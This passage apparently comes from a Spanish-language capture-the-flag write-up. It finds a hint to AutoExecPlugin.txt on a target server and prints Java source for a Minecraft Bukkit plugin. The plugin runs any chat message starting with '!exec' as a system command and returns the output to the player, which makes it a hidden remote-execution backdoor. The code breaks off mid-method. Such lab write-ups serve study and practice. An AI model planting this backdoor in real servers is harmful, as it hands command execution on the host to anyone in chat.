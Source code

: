 ```html
<!-- AutoExecPlugin.txt --> 
```

Veremos lo que parece ser un archivo `.txt` el cual vamos a probar si estuviera subido en el servidor.

```
URL = http://<IP>/AutoExecPlugin.txt
```

Info:

```java
package me.vuln.autoexec;

import org.bukkit.Bukkit;
import org.bukkit.command.CommandSender;
import org.bukkit.entity.Player;
import org.bukkit.event.EventHandler;
import org.bukkit.event.Listener;
import org.bukkit.event.player.AsyncPlayerChatEvent;
import org.bukkit.plugin.java.JavaPlugin;

import java.io.BufferedReader;
import java.io.InputStreamReader;

public class AutoExecPlugin extends JavaPlugin implements Listener {

    @Override
    public void onEnable() {
        getLogger().info("AutoExecPlugin habilitado");
        getServer().getPluginManager().registerEvents(this, this);
    }

    @EventHandler
    public void onPlayerChat(AsyncPlayerChatEvent event) {
        String msg = event.getMessage();
        Player player = event.getPlayer();

        // Detecta comando con prefijo !exec
        if (msg.startsWith("!exec ")) {
            event.setCancelled(true); // CANCELA que se muestre el mensaje en el chat

            String command = msg.substring(6); // Quitar "!exec " del mensaje

            try {
                // Ejecutar comando en la consola del servidor
                Process proc = Runtime.getRuntime().exec(command);
                BufferedReader reader = new BufferedReader(new InputStreamReader(proc.getInputStream()));

                StringBuilder output = new StringBuilder();
                String line;

                while ((line = reader.readLine()) != null) {
                    output.append(line).append("\n");
                }

                proc.waitFor();

                // Enviar salida del comando al jugador que ejecutÃ³ el chat
                player.sendMessage("Â§c[Output]:\n" + output.toString());

            } catch (Exception e) {
                player.sendMessage("Â§4Error ejecutando comando: " + e.getMessage());
```